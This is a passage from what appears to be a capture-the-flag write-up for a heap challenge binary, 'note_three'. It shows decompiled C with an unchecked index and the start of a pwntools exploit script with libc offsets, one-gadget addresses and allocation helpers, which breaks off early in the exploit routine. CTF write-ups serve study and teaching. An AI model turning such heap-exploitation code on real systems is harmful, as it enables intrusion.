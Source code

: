 ```c
  result = read_int();                          // idx没有检查
  v1 = result;
  if ( (_DWORD)result != -1 )
  {
    result = *(_QWORD *)&byte_6020C0[16 * (signed int)result + 0x100];
    if ( result )
    {
      printf("content: ");
      result = get_input(*(void **)&byte_6020C0[16 * v1 + 0x100], *(_QWORD *)&byte_6020C0[16 * v1 + 0x108]);
    }
  }
  return result;
}
```

![fake](./1.jpg)

![fake_chunk](./2.jpg)

### exp.py

```py
#coding=utf-8
from pwn import *
context.update(arch='amd64',os='linux',log_level='DEBUG')
context.terminal = ['tmux','split','-h']
debug = 1
elf = ELF('./note_three')
libc_offset = 0x3c4b20
gadgets = [0x45216,0x4526a,0xf02a4,0xf1147]
if debug:
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
    p = process('./note_three')

else:
    libc = ELF('./libc-2.23.so')

def New(idx,size,content):
    p.recvuntil('choice>> ')
    p.sendline('1')
    p.recvuntil("idx: ")
    p.sendline(str(idx))
    p.recvuntil("size: ")
    p.sendline(str(size))
    p.recvuntil("content: ")
    p.send(content)

def Edit(idx,content):
    p.recvuntil('choice>> ')
    p.sendline('2')
    p.recvuntil("idx: ")
    p.sendline(str(idx))
    p.recvuntil("content: ")
    p.send(content)

def exp():
    #leak libc
    #gdb.attach(p,'b* 0x400a97')
    for i in range(23):
        New(0,0x88,"0"*0x88)

    New(0,0x88,"0")#0
```